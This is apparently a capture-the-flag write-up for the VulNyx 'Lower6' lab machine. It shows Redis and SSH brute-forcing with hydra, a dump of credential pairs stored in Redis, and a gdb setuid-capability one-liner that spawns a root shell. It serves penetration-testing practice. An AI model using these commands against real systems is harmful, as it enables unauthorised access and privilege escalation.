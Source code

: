```yaml
---
title: VulNyx - Lower6 Writeup
date: 2025-05-26 17:00:00 +0530
categories: [Vulnyx, Writeups]
tags: [linux, redis, setuid, privesc]
description: 
---
```


`Lower6` is a low difficulty linux box. This machine consists of brute-forcing a redis instance as well as SSH, dumping the redis database keys, and finally privilege escalation by abusing the `setuid` capability enabled in the `gdb` binary.

## Enumeration

### Port Scanning

Performing a basic port scan and service enumeration with `nmap` gives us the following 

```bash
nmap -p- lower6.vl  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-25 05:55 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for lower6.vl (192.168.25.13)
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis
MAC Address: 08:00:27:2D:DD:BB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds
```

```bash
nmap -p 22,6379 -sC -sV lower6.vl
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-25 05:56 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for lower6.vl (192.168.25.13)
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
6379/tcp open  redis   Redis key-value store
MAC Address: 08:00:27:2D:DD:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.55 seconds
```

As we can see we have OpenSSH running on port `22` and a Redis key-value store running on port `6379` 

### Port 6379 - Redis key-value store

Redis is an in-memory database. When we attempt to connect to the redis instance we see that anonymous connections are are not allowed, i.e., authentication is required.

```bash
redis-cli -h lower6.vl -p 6379
lower6.vl:6379> info
NOAUTH Authentication required.
```

We first attempted some common credentials like `admin:admin`, `admin:password`, and `root:root` which were unsuccessful. 

#### Redis Brute-force

We next attempted to brute-force credentials for the redis instance using `hydra` 

```bash
hydra -P rockyou.txt -f redis://192.168.25.13 -t 64
```

![image.png](/assets/img/lower6_writeup/image.png)

We discovered a valid password, i.e., `hellow` and used it to login to the redis service by assuming that only a password was configured in the redis instance.

> **Note:** Redis allows the configuration of either username + password or only a password. If only a password is configured the username used would be “default”.
{: .prompt-info }

![image.png](/assets/img/lower6_writeup/image%201.png)

### Redis Enumeration (Authenticated)

We first used the `INFO keyspace` command to obtain database related statistics. We can see that `db0` contains `5` keys.

![image.png](/assets/img/lower6_writeup/image%202.png)

## Dumping db0

By dumping `db0` we can see that it seems to contain credentials.

```bash
lower6.vl:6379> INFO keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
lower6.vl:6379> SELECT 0
OK
lower6.vl:6379> KEYS *
1) "key2"
2) "key5"
3) "key4"
4) "key3"
5) "key1"
lower6.vl:6379> GET key2
"ghost:Ghost!Hunter42"
lower6.vl:6379> GET key5
"shadow:ShadowMaze@9"
lower6.vl:6379> GET key4
"wolf:CyberWolf#21"
lower6.vl:6379> GET key3
"snake:Pixel_Sn4ke77"
lower6.vl:6379> GET key1
"killer:K!ll3R123"
```

#### Dumped keys

**creds.txt**

```
ghost:Ghost!Hunter42
shadow:ShadowMaze@9
wolf:CyberWolf#21
snake:Pixel_Sn4ke77
killer:K!ll3R123
```

## Brute-forcing SSH

Next we prepare a username and password wordlist with keys dumped, to be used with hydra to brute-force SSH which lead to the discovery of a valid username and password combination, i.e., `killer:ShadowMaze@9`

```bash
cut -f1 -d ":" creds.txt > users.txt                                                                                                                         
```

```bash
cut -f2 -d ":" creds.txt > passwords.txt
```

![image.png](/assets/img/lower6_writeup/image%203.png)

### User flag

![image.png](/assets/img/lower6_writeup/image%204.png)

## Privilege escalation

### linpeas.sh

We then used LinPEAS to look for possible paths to escalate privileges. We can see that the `gdb` binary has set user identity (`setuid`) capabilities which we can potentially use to escalate privileges by using it as backdoor to maintain privileged access by manipulating its own process UID.

```bash
scp linpeas.sh killer@lower6.vl:/home/killer/
```

![image.png](/assets/img/lower6_writeup/image%205.png)

```bash
killer@lower6:~$ /usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

![image.png](/assets/img/lower6_writeup/image%206.png)

### Root flag

![image.png](/assets/img/lower6_writeup/image%207.png)